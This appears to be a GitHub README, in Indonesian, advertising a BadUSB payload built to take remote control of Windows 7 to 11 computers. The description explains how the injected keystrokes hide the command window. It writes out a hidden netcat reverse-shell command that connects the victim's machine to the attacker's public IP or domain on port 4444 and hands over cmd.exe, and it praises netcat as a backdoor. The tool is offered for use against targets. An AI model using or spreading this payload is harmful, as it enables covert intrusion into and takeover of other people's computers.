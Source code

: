 <p align="left"><a href="https://www.itsecurity.id/"><img height="150" title="Xcod3bughunt3r" src="0011.png"/></a></p>

# ``Xcod3 Payload BadUSB Super.``
### ``Xcod3 Payload untuk BadUSB Super.``
#### ``Payload untuk remote komputer target yang menggunakan Windows 7, 8.1, 10 dan 11 yang memanfaatkan celah BadUSB. Payload ini dirancang khusus untuk BadUSB Super``
#### Description : ``Payload ini dirancang khusus oleh Xcod3bughunt3r untuk BadUSB Super, payload ini menggunakan gabungan perintah universal, seperti penggunaan CONTROL ESCAPE tapi juga untuk keluar dari cmd menggunakan ALT SPACE dan STRING C sehingga kompatibel dengan banyak windows (Windows 7, 8.1 dan 10), selain itu juga netcat berjalan secara tersembunyi dengan perintah nc.exe (ip publik / domain / subdomain) 4444 -e cmd.exe -d. Kelebihan penggunaan netcat dibandingkan menggunakan backdoor lain adalah netcat menerima domain / sub domain saat netcat melakukan koneksi ke komputer kita / target. ``

### ``Payload ini dibuat oleh DEVELOPERS:``*[Xcod3bughunt3r](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)*.
